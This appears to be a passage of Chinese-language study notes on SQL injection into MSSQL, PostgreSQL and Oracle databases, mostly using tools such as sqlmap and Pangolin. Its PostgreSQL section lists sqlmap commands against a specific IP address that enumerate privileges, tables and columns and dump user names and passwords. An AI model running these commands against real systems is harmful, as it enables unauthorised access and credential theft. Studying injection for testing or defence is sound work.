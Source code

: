   ![image-20220727153727547](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220727153727547.png)

  从工具中还可以看到不同数据库可以获得的权限，明显msSQL可以得到更多权限。

  ![image-20220727154114341](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220727154114341.png)

  ![image-20220727154006163](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220727154006163.png)

  在信息一栏中可以查看到数据库的各种信息：版本、数据库名、计算机名、数据库名、管理员最高权限、Sql-server对应root （mysql）、数据库各表名、磁盘、用户组、用户等。

  <img src="https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220727154518550.png" alt="image-20220727154518550" style="zoom:50%;" />

  在获取数据一栏中可以获取数据库信息，表名数据等

  <img src="https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220727154538662.png" alt="image-20220727154538662" style="zoom:50%;" />

- msSQL的手工注入

  语句会与mySQL不同：

  https://www.cnblogs.com/wuhongbin/p/15582849.html

  https://www.cnblogs.com/xishaonian/p/6173644.html

### postgreSQL注入

- 可以使用工具：sqlmap、pangolin穿山甲

识别数据库类型：`sqlmap -u http://219.153.49.228:44677/new_list.php?id=1`

判断数据库权限：`sqlmap -u http://219.153.49.228:44677/new_list.php?id=1 -privileges --level 3`

判断是否为数据库管理员：`sqlmap -u http://219.153.49.228:44677/new_list.php?id=1 --is-dba --level 3`

查看当前数据库：`sqlmap -u http://219.153.49.228:44677/new_list.php?id=1 --current-db --batch`

查看名为public的数据库的表名：`sqlmap -u http://219.153.49.228:44677/new_list.php?id=1 -D public --tables`

查看表reg_users 的列名：`sqlmap -u http://219.153.49.228:44677/new_list.php?id=1 -D public -T reg_users --columns`

查看表reg_users 的具体数据：`sqlmap -u http://219.153.49.228:44677/new_list.php?id=1 -D public -T reg_users -C "name,password" --dump --batch`

- 手工注入，某些语句会有差别：

  https://blog.csdn.net/hack8/article/details/6427911

  https://www.cnblogs.com/yilishazi/p/14710349.html

### Oracle注入

- 使用工具：sqlmap、pangolin穿山甲

  ![image-20220727162001437](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220727162001437.png)

- 手工注入

  参考文档：https://www.cnblogs.com/peterpan0707007/p/8242119.html
